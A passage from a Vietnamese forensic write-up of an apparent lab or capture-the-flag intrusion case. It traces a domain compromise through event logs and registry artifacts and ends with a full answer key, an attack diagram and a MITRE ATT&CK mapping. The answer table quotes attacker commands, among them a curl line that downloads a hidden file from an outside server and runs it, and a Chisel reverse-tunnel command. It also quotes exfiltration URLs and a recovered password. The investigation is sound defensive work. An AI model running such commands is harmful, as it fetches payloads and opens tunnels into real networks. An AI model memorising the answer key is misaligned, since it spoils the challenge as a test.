Để tìm các service mới được tạo trên `DC01`, ta kiểm tra `System.evtx` và lọc theo event `7045`. Đây là event được `Service Control Manager` ghi lại khi một service được cài đặt vào hệ thống.

Tại `2025-12-26 03:33:44 UTC`, ta phát hiện một service đáng ngờ có tên ngẫu nhiên `f94c290`. Service được cấu hình chạy dưới account `LocalSystem`, trong khi trường `ImagePath` trỏ tới một file thực thi có cùng tên thông qua administrative share `ADMIN$` trên loopback address `127.0.0.1`:

```text
Log Name:      System
Source:        Service Control Manager
Event ID:      7045
TimeCreated:   2025-12-26T03:33:44.614234Z
Computer:      DC01.TriDsk.local
Security ID:   S-1-5-21-2338307016-1977004272-3036568200-1212

Service Name:  f94c290
Image Path:    \\127.0.0.1\ADMIN$\f94c290.exe
Service Type:  user mode service
Start Type:    demand start
Service Account: LocalSystem
```



Trường SID của event trùng với SID của account `FileSrv_Admin` đã được xác định ở Task 11. Tên service và executable được tạo ngẫu nhiên, binary được gọi qua administrative share, đồng thời service có quyền `LocalSystem`. Chỉ khoảng một giây sau, event `7034` ghi nhận service này kết thúc bất thường. Các đặc điểm trên cho thấy đây là service tạm thời được attacker tạo để thực thi payload. 

Vậy đáp án cho câu hỏi là: `\\127.0.0.1\ADMIN$\f94c290.exe`

##### Task 14 #####
```text
When was Windows Defender real-time protection disabled on the endpoint?
```

Câu này khá dễ khi chúng ta có thể sử dụng log `Microsoft-Windows-Windows Defender/Operational.evtx` của `DC01`, bên trong thì event mới nhất là event `5001` ghi nhận real-time protection trên thiết bị này đã bị tắt:



Vậy đáp án cho câu hỏi là: `2025-12-26 02:48:44`

##### Task 15 #####
```text
The threat actor created a new user account and added it to the 'Domain Admins' group. What is the name of the user account?

Dịch: Kẻ tấn công đã tạo một tài khoản người dùng mới và thêm tài khoản này vào nhóm 'Domain Admins'. Tên của tài khoản là gì?
```

Ta tiếp tục phân tích `Security.evtx` của `DC01` và lọc theo các event liên quan đến việc quản lý account. Tại `2025-12-26 03:43:16 UTC`, event `4720` ghi nhận một domain account mới có tên `s1rx` và SID `S-1-5-21-2338307016-1977004272-3036568200-1231` được tạo:

```text
Event ID:          4720
TimeCreated:       2025-12-26T03:43:16.454780Z
TargetUserName:    s1rx
TargetDomainName:  TRIDSK
TargetSid:         S-1-5-21-2338307016-1977004272-3036568200-1231
SubjectUserName:   DC01$
```



Khoảng 39 giây sau, event `4728` ghi nhận SID trên được thêm vào nhóm global security `Domain Admins`. Trường `MemberName` cũng xác nhận account được thêm là `CN=s1rx,CN=Users,DC=TriDsk,DC=local`:



Vậy đáp án cho câu hỏi là: `s1rx`

#### Phase 4: The Fourth Endpoint ####
##### Task 16 #####
```text
The threat actor attempted to enable the RDP protocol on the endpoint but failed in doing so. They then moved laterally to another endpoint and successfully enabled RDP for remote access. When was RDP enabled?

Dịch: Kẻ tấn công đã cố gắng bật giao thức RDP trên endpoint này nhưng không thành công. Sau đó, hắn di chuyển ngang sang endpoint khác và bật thành công RDP để truy cập từ xa. RDP được bật vào lúc nào?
```

> *RDP (Remote Desktop Protocol): là giao thức truy cập desktop từ xa của Microsoft, cho phép người dùng tương tác với giao diện đồ họa, bàn phím và chuột của một máy Windows qua mạng. Dịch vụ thường lắng nghe trên TCP/UDP port `3389`; trên Windows, RDP chỉ có thể nhận kết nối khi Remote Desktop Services, listener và các firewall rule liên quan được bật.* 

Như vậy chỉ còn lại 1 endpoint cuối cùng và cũng là endpoint thứ tư mà kẻ tấn công truy cập thành công: `FS01`. Trong log `Microsoft-Windows-Windows Firewall With Advanced Security/Firewall.evtx` của máy này, tại `2025-12-26 04:14:10 UTC` xuất hiện liên tiếp các event `2005` cho biết những firewall rule thuộc nhóm Remote Desktop đã được sửa và chuyển sang trạng thái `Active: 1`.

Hai rule quan trọng là `Remote Desktop - User Mode (UDP-In)` và `Remote Desktop - User Mode (TCP-In)`, đều được modified, trong đó có thể để ý trường `ModifyingUser` mang SID của account `s1rx`, còn `ModifyingApplication` là `C:\Windows\System32\wbem\WmiPrvSE.exe`:






Ngay sau đó, event `7036` trong `System.evtx` ghi nhận service `Remote Desktop Services` chuyển sang trạng thái `running` và các event sớm nhất của `Microsoft-Windows-RemoteDesktopServices-RdpCoreTS/Operational.evtx` bắt đầu vào `2025-12-26 04:14:11 UTC` để củng cố cho việc RDP đã được bật vào khoảng thời gian trước đó như trong log Firewall đã ghi lại:



Vậy đáp án cho câu hỏi là: `2025-12-26 04:14:10`

##### Task 17 #####
```text
After Enabling RDP on the fourth endpoint, when did the attacker successfully log in via RDP using the backdoor account?

Dịch: Sau khi bật RDP trên endpoint thứ tư, kẻ tấn công đăng nhập thành công qua RDP bằng backdoor account vào lúc nào?
```

Trong `Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational.evtx`, event `1149` lúc `04:22:54 UTC` cho thấy account `s1rx` đã vượt qua bước xác thực RDP từ source IP `10.101.1.10`. Tuy nhiên đây không phải đáp án đúng, maybe tại event này chỉ xác nhận authentication trước khi Windows tạo logon session, do đó chưa phải mốc `successfully logged in` mà câu hỏi yêu cầu.

Ta chuyển sang `Security.evtx` và tìm event `4624` với `LogonType: 10`, loại logon dành cho RemoteInteractive/RDP. Tại `2025-12-26 04:23:02 UTC`, Windows ghi nhận phiên RDP của `TRIDSK\s1rx` đăng nhập thành công từ `10.101.1.10`: 



Ngay sau event trên, event `4672` gắn các quyền đặc biệt cho phiên này, tổng hợp chuỗi event này xác nhận attacker không chỉ authenticate mà đã thật sự vào được phiên RDP.

Vậy đáp án cho câu hỏi là: `2025-12-26 04:23:02`

##### Task 18 #####
```text
The threat actor identified an application used by the IT team, installed it using the installer file already on the system and abused it for data exfiltration. What is the application name and version?

Dịch: Kẻ tấn công đã xác định một ứng dụng được đội ngũ IT sử dụng, cài đặt nó bằng file installer có sẵn trên hệ thống và lạm dụng để exfiltrate dữ liệu. Tên và phiên bản ứng dụng là gì?
```

Ta kiểm tra `Application.evtx` của `FS01`. Trong đó có 1 event `1040` tại `04:37:51 UTC` cho biết account mang SID của `s1rx` đã khởi chạy installer có sẵn là `S:\Shares\IT\WinSCP-6.5.3.msi`:



Sau đó tại `04:38:03 UTC`, event `11707` đã xác nhận quá trình cài đặt `WinSCP` hoàn tất thành công. Event `1033` cùng thời điểm cung cấp metadata chi tiết của sản phẩm, bao gồm tên `WinSCP`, phiên bản `6.5.3`:



> *WinSCP: là ứng dụng truyền tệp mã nguồn mở dành cho Windows, hỗ trợ các giao thức như SFTP, SCP, FTP, WebDAV và S3. Ứng dụng cho phép truyền tệp qua giao diện đồ họa hoặc command line, đồng thời có thể lưu hostname, username, thư mục local/remote và credential theo từng session trong registry của user. Có thể đọc thêm về WinSCP tại [đây](https://winscp.net/eng/docs/introduction).* 

Vậy đáp án cho câu hỏi là: `WinSCP 6.5.3`

##### Task 19 #####
```text
What was the full file path of the staged data that the threat actor later exfiltrated?

Dịch: Đường dẫn đầy đủ của dữ liệu được staging mà kẻ tấn công sau đó đã exfiltrate là gì?
```

Ở Task 18, ta đã xác định attacker cài và sử dụng `WinSCP` dưới account `s1rx`. Vì cấu hình và lịch sử session của WinSCP được lưu theo từng user, nên giờ ta có thể kiểm tra registry hive `C:\Users\s1rx\NTUSER.DAT`.

Tại key `Software\Martin Prikryl\WinSCP 2\Sessions\s1rx@93.121.68.219`, giá trị `LocalDirectory` là `C:\Users\Public\Downloads`, trong khi `RemoteDirectory` là `/home/s1rx`. Như vậy, registry cung cấp thư mục local mà attacker đã chọn trong WinSCP để upload dữ liệu, nhưng chưa cho biết tên file được exfiltrate:



Tuy nhiên, trong cùng hive, ta còn thấy key `Software\7-Zip`, điều này chứng tỏ attacker có thể đã sử dụng công cụ này để nén lại dữ liệu hắn định đánh cắp. Ở key `Software\7-Zip\Compression` ta thấy có 1 `ArchiveName` là `S:\Shares\Backup.7z`:



Artifact này xác nhận attacker đã thao tác với archive mang tên `Backup.7z`. Ghép hai dữ kiện trên, ta có tên file và thư mục staging nghi vấn là `Backup.7z` và `C:\Users\Public\Downloads`; tuy nhiên, vẫn cần artifact filesystem để chứng minh thật sự có tồn tại 1 file `Backup.7z` như vậy.

Tiếp theo, ta parse `$UsnJrnl:$J` của `FS01` và lọc theo tên `Backup.7z`. Journal cho thấy file được tạo trong `C:\Users\s1rx\Documents` nhưng sau đó tại `04:46:07 UTC` record rename cuối cùng của file này:





Bên cạnh đó ta có thể thấy `FileReferenceNumber` không thay đổi giữa hai record xác nhận đây là cùng một file được di chuyển sang thư mục khác chứ không phải hai file trùng tên. Record `RenameNewName` cũng đồng thời xác nhận giả thuyết từ WinSCP registry là archive `Backup.7z` đã nằm trong `C:\Users\Public\Downloads` trước khi bị upload ra ngoài.

Vậy đáp án cho câu hỏi là: `C:\Users\Public\Downloads\Backup.7z`

##### Task 20 #####
```text
What username and password did the threat actor use to authenticate to the external exfiltration server?

Dịch: Kẻ tấn công đã sử dụng username và password nào để xác thực tới server exfiltration bên ngoài?
```

Như đã nói ở trên, WinSCP lưu các saved session của từng user trong `NTUSER.DAT` tại key `Software\Martin Prikryl\WinSCP 2\Sessions`. Trong hive của `s1rx`, ta tìm thấy session `s1rx@93.121.68.219` cùng các giá trị sau:

```text
Key:      Software\Martin Prikryl\WinSCP 2\Sessions\s1rx@93.121.68.219
HostName: 93.121.68.219
UserName: s1rx
Password: A35C4358B2E944E32F6D2E24656F726D6E6D726A64726E6D650F6D2E24032A2612180C6B65252A3CF84478EBB94F4E63E009
```



Như chúng ta đã thấy, giá trị `Password` không phải plaintext, theo source code chính thức về hàm mã hóa mật khẩu của WinSCP tại [đây](https://github.com/winscp/winscp/blob/00508ccba8b01b06e9c8c57e2953f5d3011d0607/source/core/Security.cpp), ta có thể thấy công thức mã hóa của công cụ này có dạng:

```cpp
plaintext = UTF8(username + hostname + password)
encoded_byte = (~plaintext_byte) XOR 0xA3
```

Ta có thể tìm công cụ có sẵn là [winscppasswd](https://github.com/anoopengineer/winscppasswd), tool tách chuỗi hex thành các nibble và giải mã từng byte bằng chính công thức ở trên:

```bash
./winscppasswd.exe 93.121.68.219 s1rx A35C4358B2E944E32F6D2E24656F726D6E6D726A64726E6D650F6D2E24032A2612180C6B65252A3CF84478EBB94F4E63E009
```



Vậy đáp án cho câu hỏi là: `s1rx:S1rx_vzNDP79yv`

### 3. Câu hỏi và đáp án ###

<table style="width:100%; table-layout:fixed; border-collapse:collapse;">
  <colgroup>
    <col style="width:5%;">
    <col style="width:63%;">
    <col style="width:32%;">
  </colgroup>
  <thead>
    <tr>
      <th style="text-align:center;">STT</th>
      <th style="width:63%; text-align:center;">Câu hỏi</th>
      <th style="width:32%; text-align:center;">Đáp án</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:center;">1</td>
      <td>The threat actor abused an internal communication service between employees and shared a malicious file to facilitate lateral movement within the network. This activity is believed to have originated from TriDsk-WKS02 which was recently compromised. Provide the full path of the file that was downloaded.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">C:\Users\Martha\Downloads\TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">2</td>
      <td>The threat actor downloaded a keylogger to the endpoint to capture user keystrokes. Provide the exact URL used to download the keylogger.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">http://93.121.68.219:8908/645.exe</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">3</td>
      <td>The threat actor identified and abused a protocol that enabled pivoting to other endpoint within the environment. They used a tool to facilitate further lateral movement abusing this protocol. Find the full command line used to move laterally using port forwarding.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">4</td>
      <td>To force the user to re-enter their credentials for credential harvesting, the threat actor deployed a script that continuously monitors for the execution of the process related to the protocol being abused and immediately terminates it. Provide the process termination time.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">2025-12-26 00:52:51</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">5</td>
      <td>Identify the time interval (in milliseconds) that the keylogger waits before sending captured data to the server.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">1200000</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">6</td>
      <td>The keylogger exfiltrated captured data to a remote server. Provide the full destination URL.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">https://discord.com/api/webhooks/1452445434894221455/pKIO5TZGrGL7KaWLb_H03S61nI9OcRe_UKvEHhOBgG507IyprUxzYzBSOyTj46c2AVCY</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">7</td>
      <td>After harvesting credentials, the threat actor moved laterally to another endpoint. When did they successfully authenticate to the new endpoint?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">2025-12-26 01:33:03</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">8</td>
      <td>After moving laterally to the second system, the threat actor downloaded two malicious executables. When was the second executable file downloaded?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">2025-12-26 01:50:20</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">9</td>
      <td>The threat actor established persistence on this newly compromised endpoint after successfully escalating privileges. What is the full command that is executed as part of the persistence mechanism?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">curl -fsSL http://93.121.68.219:8908/updat3 -o /dev/shm/.upd&amp;&amp; chmod +x /dev/shm/.upd&amp;&amp; /dev/shm/.upd</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">10</td>
      <td>Determine the total dwell time, in minutes, that the threat actor spent on the second endpoint.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">230.42</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">11</td>
      <td>The threat actor performed lateral movement from Second Compromised Endpoint to another endpoint. Which alternative user account was used to access the target endpoint?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">FileSrv_Admin</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">12</td>
      <td>The threat actor obtained initial access on third machine by downloading and executing a malicious executable. Provide the full command used to execute the malicious file.</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">powershell -c Start-Process C:\Users\Administrator\Music\update.exe</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">13</td>
      <td>What is the full file path associated with the malicious service created on the third compromised endpoint?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">\\127.0.0.1\ADMIN$\f94c290.exe</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">14</td>
      <td>When was Windows Defender real-time protection disabled on the endpoint?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">2025-12-26 02:48:44</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">15</td>
      <td>The threat actor created a new user account and added it to the 'Domain Admins' group. What is the name of the user account?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">s1rx</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">16</td>
      <td>The threat actor attempted to enable the RDP protocol on the endpoint but failed in doing so. They then moved laterally to another endpoint and successfully enabled RDP for remote access. When was RDP enabled?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">2025-12-26 04:14:10</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">17</td>
      <td>After Enabling RDP on the fourth endpoint, when did the attacker successfully log in via RDP using the backdoor account?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">2025-12-26 04:23:02</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">18</td>
      <td>The threat actor identified an application used by the IT team, installed it using the installer file already on the system and abused it for data exfiltration. What is the application name and version?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">WinSCP 6.5.3</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">19</td>
      <td>What was the full file path of the staged data that the threat actor later exfiltrated?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">C:\Users\Public\Downloads\Backup.7z</code></td>
    </tr>
    <tr>
      <td style="text-align:center;">20</td>
      <td>What username and password did the threat actor use to authenticate to the external exfiltration server?</td>
      <td style="overflow-wrap:anywhere; word-break:break-word;"><code style="white-space:normal; overflow-wrap:anywhere; word-break:break-word;">s1rx:S1rx_vzNDP79yv</code></td>
    </tr>
  </tbody>
</table>

### 4. Chuỗi tấn công ###


```mermaid
flowchart LR
    classDef initial fill:#d9ead3,stroke:#38761d,color:#000;
    classDef execution fill:#fff2cc,stroke:#bf9000,color:#000;
    classDef credential fill:#fce5cd,stroke:#b45f06,color:#000;
    classDef lateral fill:#cfe2f3,stroke:#3d85c6,color:#000;
    classDef persistence fill:#ead1dc,stroke:#a64d79,color:#000;
    classDef impact fill:#f4cccc,stroke:#cc0000,color:#000;

    subgraph P1["Giai đoạn 1 - TriDsk-WKS01 (10.101.2.7)"]
        direction TB
        A["WKS02 đã bị xâm nhập<br/>gửi tệp LNK độc hại<br/>qua kênh chat nội bộ"]:::initial
        B["Martha mở shortcut<br/>PDF độc hại"]:::execution
        C["LNK tải và chạy<br/>wctBB85.exe (Empire)"]:::execution
        D["Tác vụ theo lịch update<br/>chạy mã độc mỗi 10 phút"]:::persistence
        E["Tải trình ghi phím<br/>645.exe → temp.exe"]:::credential
        F["Kết thúc ssh.exe khi chạy<br/>buộc nhập lại mật khẩu"]:::credential
        G["Gửi dữ liệu bàn phím<br/>tới Discord webhook"]:::credential
        H["Chisel tạo đường hầm ngược<br/>cổng ngoài 8000<br/>tới cổng SSH 22 của APP01"]:::lateral

        A --> B --> C
        C --> D
        C --> E
        C --> F
        E --> G
        C --> H
    end

    subgraph P2["Giai đoạn 2 - APP01 (10.101.1.12)"]
        direction TB
        I["Đăng nhập SSH bằng dev01<br/>lúc 01:33:03 UTC"]:::lateral
        J["Tải xuống hai<br/>mã độc Linux"]:::execution
        J1["Tệp thứ nhất<br/>/tmp/bash"]:::execution
        J2["Tệp thứ hai<br/>/tmp/sh"]:::execution
        K["Mã độc thực thi<br/>với quyền root"]:::execution
        L["Tạo dịch vụ systemd<br/>được đặt tên ngụy trang"]:::persistence
        M["Dịch vụ tải mã độc ẩn<br/>/dev/shm/.upd"]:::persistence

        I --> J
        J --> J1
        J --> J2
        J1 --> K
        J2 --> K
        K --> L --> M
    end

    subgraph P3["Giai đoạn 3 - DC01 (10.101.1.10)"]
        direction TB
        N["APP01 truy cập DC01<br/>bằng FileSrv_Admin"]:::lateral
        N1["Xác thực NTLM"]:::lateral
        O["Tải và thực thi<br/>update.exe"]:::execution
        Q["Vô hiệu hóa Defender<br/>lúc 02:48:44 UTC"]:::execution
        P["Tạo dịch vụ f94c290<br/>lúc 03:33:44 UTC"]:::execution
        R["Tạo tài khoản s1rx<br/>thêm vào Domain Admins"]:::persistence

        N --> N1 --> O
        O --> Q --> P --> R
    end

    subgraph P4["Giai đoạn 4 - FS01"]
        direction TB
        S["WMI bật RDP<br/>và các quy tắc tường lửa"]:::lateral
        T["Đăng nhập RDP bằng s1rx<br/>lúc 04:23:02 UTC"]:::lateral
        U["Cài WinSCP 6.5.3<br/>từ thư mục chia sẻ IT"]:::execution
        X["Lưu phiên kết nối ngoài<br/>s1rx@93.121.68.219"]:::execution
        Y["Dùng 7-Zip tạo<br/>Backup.7z"]:::execution
        V["Chuyển tệp nén tới<br/>Public Downloads"]:::impact
        W["Đánh cắp Backup.7z<br/>bằng WinSCP"]:::impact

        S --> T --> U
        U --> X
        U --> Y
        Y --> V
        X --> W
        V --> W
    end

    P1 -->|SSH qua Chisel| P2
    P2 -->|NTLM bằng FileSrv_Admin| P3
    P3 -->|WMI và RDP| P4
```

### 5. Ánh xạ MITRE ATT&CK ###

| Tactic<br><small>Chiến thuật</small> | Technique<br><small>Kỹ thuật</small> | ID | Bằng chứng điều tra |
|---|---|:---:|---|
| Lateral Movement<br><small>Di chuyển ngang</small> | Internal Spearphishing<br><small>Lừa đảo nội bộ có chủ đích</small> | T1534 | Kẻ tấn công lợi dụng dịch vụ liên lạc nội bộ từ WKS02 đã bị xâm nhập để gửi lối tắt độc hại tới Martha trên WKS01. |
| Execution<br><small>Thực thi</small> | User Execution: Malicious File<br><small>Người dùng thực thi: Tệp độc hại</small> | T1204.002 | Martha thực thi <code>TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk</code>, từ đó khởi chạy mã độc đầu tiên trên WKS01. |
| Execution<br><small>Thực thi</small> | Command and Scripting Interpreter: PowerShell<br><small>Trình thông dịch lệnh và tập lệnh: PowerShell</small> | T1059.001 | PowerShell được dùng để tải và chạy trình ghi phím, Chisel, <code>update.exe</code>, đồng thời thực thi <code>Invoke-ProcessKiller</code>. |
| Persistence<br><small>Duy trì truy cập</small> | Scheduled Task/Job: Scheduled Task<br><small>Tác vụ/Công việc theo lịch: Tác vụ theo lịch</small> | T1053.005 | Tác vụ theo lịch <code>update</code> được cấu hình chạy <code>wctBB85.exe</code> mỗi 10 phút trên WKS01. |
| Credential Access<br><small>Truy cập thông tin xác thực</small> | Input Capture: Keylogging<br><small>Thu thập dữ liệu nhập vào: Ghi phím</small> | T1056.001 | <code>645.exe</code>/<code>temp.exe</code> ghi lại thao tác bàn phím và lưu dữ liệu vào <code>edg698F.dat</code>. |
| Exfiltration<br><small>Đánh cắp dữ liệu</small> | Exfiltration Over Web Service: Exfiltration Over Webhook<br><small>Đánh cắp dữ liệu qua dịch vụ web: Đánh cắp dữ liệu qua webhook</small> | T1567.004 | Trình ghi phím gửi dữ liệu thu thập được tới Discord webhook do kẻ tấn công kiểm soát. |
| Command and Control<br><small>Chỉ huy và kiểm soát</small> | Proxy: Internal Proxy<br><small>Proxy: Proxy nội bộ</small> | T1090.001 | Chisel tạo đường hầm chuyển tiếp cổng ngược qua WKS01 để mở đường truy cập dịch vụ SSH của APP01. |
| Lateral Movement<br><small>Di chuyển ngang</small> | Remote Services: SSH<br><small>Dịch vụ từ xa: SSH</small> | T1021.004 | Kẻ tấn công dùng thông tin xác thực <code>dev01@TriDsk.local</code> đã thu thập để xác thực vào APP01 qua SSH. |
| Command and Control<br><small>Chỉ huy và kiểm soát</small> | Ingress Tool Transfer<br><small>Truyền công cụ vào hệ thống</small> | T1105 | Kẻ tấn công tải <code>645.exe</code>, <code>b22</code>, <code>b21</code>, <code>updat3</code> và <code>t.exe</code> từ <code>93.121.68.219</code>. |
| Privilege Escalation<br><small>Leo thang đặc quyền</small> | Exploitation for Privilege Escalation<br><small>Khai thác để leo thang đặc quyền</small> | T1068 | Một mã độc Linux được tải xuống đã đạt quyền root trên APP01 trước khi dịch vụ systemd duy trì truy cập được cài đặt. |
| Persistence<br><small>Duy trì truy cập</small> | Create or Modify System Process: Systemd Service<br><small>Tạo hoặc sửa tiến trình hệ thống: Dịch vụ systemd</small> | T1543.002 | <code>systemd-journald-helper.service</code> liên tục tải và thực thi mã độc ẩn <code>/dev/shm/.upd</code>. |
| Defense Evasion<br><small>Né tránh phòng thủ</small> | Masquerading: Match Legitimate Name or Location<br><small>Ngụy trang: Mô phỏng tên hoặc vị trí hợp pháp</small> | T1036.005 | Các tên như <code>svchosts.exe</code> và <code>systemd-journald-helper.service</code> mô phỏng thành phần hệ thống hợp pháp. |
| Lateral Movement<br><small>Di chuyển ngang</small> | Valid Accounts: Domain Accounts<br><small>Tài khoản hợp lệ: Tài khoản miền</small> | T1078.002 | Kẻ tấn công lần lượt dùng <code>dev01@TriDsk.local</code>, <code>FileSrv_Admin</code> và <code>s1rx</code> để di chuyển giữa các máy. |
| Execution<br><small>Thực thi</small> | Windows Management Instrumentation<br><small>Công cụ quản lý Windows</small> | T1047 | Dấu vết thực thi qua WMI cho thấy kẻ tấn công sử dụng cơ chế quản trị từ xa này để bật RDP trên FS01. |
| Lateral Movement<br><small>Di chuyển ngang</small> | Remote Services: SMB/Windows Admin Shares<br><small>Dịch vụ từ xa: SMB/Chia sẻ quản trị Windows</small> | T1021.002 | Dịch vụ độc hại trên DC01 tham chiếu tệp thực thi qua đường dẫn <code>\\127.0.0.1\ADMIN$\f94c290.exe</code>. |
| Execution<br><small>Thực thi</small> | System Services: Service Execution<br><small>Dịch vụ hệ thống: Thực thi dịch vụ</small> | T1569.002 | Kẻ tấn công tạo dịch vụ tạm thời <code>f94c290</code> để thực thi mã độc dưới quyền <code>LocalSystem</code> trên DC01. |
| Defense Evasion<br><small>Né tránh phòng thủ</small> | Impair Defenses: Disable or Modify Tools<br><small>Làm suy yếu biện pháp phòng vệ: Vô hiệu hóa hoặc sửa đổi công cụ</small> | T1562.001 | Chế độ bảo vệ theo thời gian thực của Windows Defender bị vô hiệu hóa trên DC01. |
| Persistence<br><small>Duy trì truy cập</small> | Create Account: Domain Account<br><small>Tạo tài khoản: Tài khoản miền</small> | T1136.002 | Kẻ tấn công tạo tài khoản miền <code>s1rx</code>. |
| Persistence / Privilege Escalation<br><small>Duy trì truy cập / Leo thang đặc quyền</small> | Account Manipulation<br><small>Thao túng tài khoản</small> | T1098 | Kẻ tấn công thêm <code>s1rx</code> vào nhóm đặc quyền <code>Domain Admins</code>. |
| Lateral Movement<br><small>Di chuyển ngang</small> | Remote Services: Remote Desktop Protocol<br><small>Dịch vụ từ xa: Giao thức máy tính từ xa</small> | T1021.001 | RDP được bật trên FS01 và kẻ tấn công mở một phiên đăng nhập từ xa tương tác bằng <code>s1rx</code>. |
| Exfiltration<br><small>Đánh cắp dữ liệu</small> | Exfiltration Over Alternative Protocol<br><small>Đánh cắp dữ liệu qua giao thức thay thế</small> | T1048 | WinSCP truyền tệp nén đã tập kết tới máy chủ ngoài <code>93.121.68.219</code> bằng phiên đã lưu <code>s1rx@93.121.68.219</code>. |
